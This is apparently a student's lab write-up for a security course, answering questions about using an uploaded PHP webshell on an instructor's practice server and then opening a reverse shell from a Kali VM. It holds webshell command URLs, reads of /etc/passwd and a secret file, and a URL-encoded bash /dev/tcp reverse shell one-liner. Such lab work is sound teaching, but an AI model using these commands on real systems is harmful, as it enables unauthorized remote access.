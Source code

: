 ***Lucky Beulla Muhoza***

***CS 338***

***Prof. Jeff Ondich***

## FIRST REVERSE SHELL ##

### Part 1: Installing a PHP webshell ###

a. Explain how you can execute the Linux command whoami on the server using your webshell. What result do you get when you execute that command?

>  *To execute the whoami command on the server, I accessed the path to my uploaded web shell file in the URL and included ***?command=whoami****, so my URL looks like this: 
 http://danger.jeffondich.com/uploadedimages/muhozal-webshell1.php?command=whoami
>
>  *The uploaded PHP code then checks if a command parameter is provided in the URL and executes that specified command through the system function, thus allowing remote code execution.
The resulting output is the name of the user under which the web server is running, in this case www-data.*


b. What is this webshell's ```<pre>``` tag for? (And more to the point, what happens if you leave it out?)

> *The ```<pre>``` tag ensures that the output from the system function is displayed in a well-structured and readable way. Leaving out the tag would result into a messy output since HTML would ignore whitespace and line breaks thus making elements like lists of files or directories harder to read.*

*****
### Part 2: Looking around ###

a. What directory is danger's website located in?

> *Using the **pwd** command, the directory in which danger's website is located in is: **/var/www/danger.jeffondich.com***

b. What are the names of all the user accounts on danger.jeffondich.com? How do you know?

> *Using ```command=ls /home```, I was able to find the two main user directories on danger.jeffondich.com in the home directory. These user accounts are **bullwinkle** and **jeff***

c. Do you have access to the file /etc/passwd? What's in it?

> *I attempted to access ```/etc/passwd``` using ```cat /etc/passwd``` but encountered a site error, suggesting that direct access to the file is restricted.*

d. Do you have access to the file /etc/shadow? What's in it? (You'll have to look onliine for the answer to that second question, since the answer to the first is no.)

> *No, I do not have access to ```/etc/shadow```.*
>
> *This file stores encrypted user passwords and other information about user accounts. Each entry typically includes fields like the username, hashed password, last password change, and password expiration policies.*

e. There may be some secret files scattered around. See how many you can find and report on your discoveries.

> *I found a moose using ```command=cat /home/jeff/supersecret.txt```*

f. [Optional] Report on anything else interesting you discover.

> *I was frustrated but eventually found it helpful that the ```cd``` command does not work in web shell.*
> 
> *I learned that when I send a command via a PHP web shell, it’s executed in a new, isolated shell session every time. Any directory changes made with cd exist only in that temporary shell, which closes immediately after the command runs. This allows me to explore diffent directories without needing ```cd```.*

****
### Part 3: Setup for part 4 ###
****

### Part 4: Launching a reverse shell ###

a. What is the IP address of your Kali VM (the target machine)? How did you find out?

> *The IP address of my Kali VM in 192.168.64.2. I found it by running the `ip a` command in my Kali terminal and inspecting the eth0 interface section*

b. What are the IP addresses of your host OS (the attacking machine)? How did you find out? Which one should you use to communicate with Kali and why?

> *I was able to obtain the IP address of my macOS by running the `ifconfig | grep inet` command in my terminal. Here is the list of present IP addressed:*
>
>```
>	inet 127.0.0.1 netmask 0xff000000
>	inet6 ::1 prefixlen 128 
>	inet6 fe80::1%lo0 prefixlen 64 scopeid 0x1 
>	inet6 fe80::a494:37ff:fecf:e5d5%ap1 prefixlen 64 scopeid 0xb 
>	inet6 fe80::1c5b:29b2:d71e:3487%en0 prefixlen 64 secured scopeid 0xc 
>	inet 10.133.0.214 netmask 0xffffe000 broadcast 10.133.31.255
>	inet6 fe80::4c06:6dff:fe19:7ce2%awdl0 prefixlen 64 scopeid 0xd 
>	inet6 fe80::4c06:6dff:fe19:7ce2%llw0 prefixlen 64 scopeid 0xe 
>	inet6 fe80::a05f:d8e8:8da2:d878%utun0 prefixlen 64 scopeid 0xf 
>	inet6 fe80::d48b:7e2a:ed1d:51fa%utun1 prefixlen 64 scopeid 0x10 
>	inet6 fe80::9b38:4747:3b6c:256d%utun2 prefixlen 64 scopeid 0x11 
>	inet6 fe80::ce81:b1c:bd2c:69e%utun3 prefixlen 64 scopeid 0x12 
>	inet6 fe80::4942:7591:c656:402e%utun4 prefixlen 64 scopeid 0x13 
>	inet6 fe80::7001:54e0:1851:ca5d%utun5 prefixlen 64 scopeid 0x14 
>	inet6 fe80::4a03:9414:840e:86b2%utun6 prefixlen 64 scopeid 0x17 
>	inet6 fe80::6905:89f9:1401:c108%utun7 prefixlen 64 scopeid 0x18 
>	inet 192.168.64.1 netmask 0xffffff00 broadcast 192.168.64.255
>	inet6 fe80::8494:37ff:fefc:8b64%bridge100 prefixlen 64 scopeid 0x16 
>	inet6 fd6a:c3ab:6dda:5cc4:1c66:5278:ac7d:564 prefixlen 64 autoconf secured 
>```
> *The **IP 192.168.64.1** should be used to communicate with Kali, given that my Kali VM has the **IP address 192.168.64.2**. This makes both machines part of the same local network, allowing for direct communication.*

c. On your host OS (the attacker), pick any port number between 5000 and 10000 and run nc -l -p YOUR_CHOSEN_PORT

> *Ran the command nc -l 5050 in my mac terminal*

d. In a browser on your host machine, use your web shell to go to this crazy URL.

> *My URL is: http://192.168.64.2/webshell.php?command=bash%20-c%20%22bash%20-i%20%3E%26%20/dev/tcp/192.168.64.1/5050%200%3E%261%22*

e. Go back and look at your nc -l -p terminal on your host OS (attacking machine). Do you have a shell now? Is it letting you execute commands on Kali? How do you know it's Kali?

> *I have successfully established a reverse shell connection from my Kali VM back to my macOS. The output show `www-data@kali:/var/www/html$`*
>
> *Yes, I can execute commands on Kali from my macOS now. Here is a screenshot of the `ls` command that listed the files in the `/var/www/html` directory and `whoami` command that displayed the username of the current user on Kali:*
>
>  <img width="255" alt="Screenshot 2024-10-29 at 2 55 31 PM" src="https://github.com/user-attachments/assets/ea34c3b3-f027-4dc6-97d0-bf108de33cf9">
>
> *I know the shell is from my Kali because the prompt shows `www-data@kali`, where www-data is the username and kali is the hostname of the Kali VM. And, when I run pwd to see my current working directory, the output is `/var/www/html`, which is the default location for the Apache web server on Kali Linux.*

f. What are all those % codes in the URL you used?


g. Write a brief description, probably including a diagram, explaining how this reverse shell is functioning.
